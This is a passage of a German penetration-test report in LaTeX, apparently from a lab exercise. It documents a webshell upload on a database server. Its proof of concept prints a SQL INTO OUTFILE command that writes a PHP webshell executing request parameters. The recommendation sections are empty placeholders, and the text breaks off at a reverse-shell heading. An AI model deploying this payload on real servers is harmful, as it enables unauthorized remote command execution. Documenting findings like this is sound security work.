 \subsection*{Empfehlungen}
Empfehlungen



\section{\makecvssbadge Sam's Gärtnerboard-DB: Upload einer Webshell}

\subsection*{Proof of concept}
Mit den zuvor erlangten Credentials für den Zugriff auf Server kann eine SSH-Verbindung erstellt werden. Der Datenbank-Server ist ein SQL-Server. Dadurch kann über den SQL Befehl aus \autoref{listing:sams-gaertnerboard-db:webshell-sql} eine Webshell auf dem Datenbankserver hinterlegt werden. Diese Webshell ist dadurch unter der URL \url{http://10.0.68.108/web-shell.php} erreichbar.

\begin{listing}[!ht]
\begin{verbatim}
Select '<?php system($_REQUEST["cmd"]); ?>' into outfile '/var/www/html/web-shell.php';
\end{verbatim}
\caption{Webshell upload über SQL-Befehl}
\label{listing:sams-gaertnerboard-db:webshell-sql}
\end{listing}
\subsection*{Empfehlungen}
Empfehlungen


\section{\makecvssbadge Sam's Gärtnerboard DB: Reverse Shell und Remote Code Execution (RCE)}

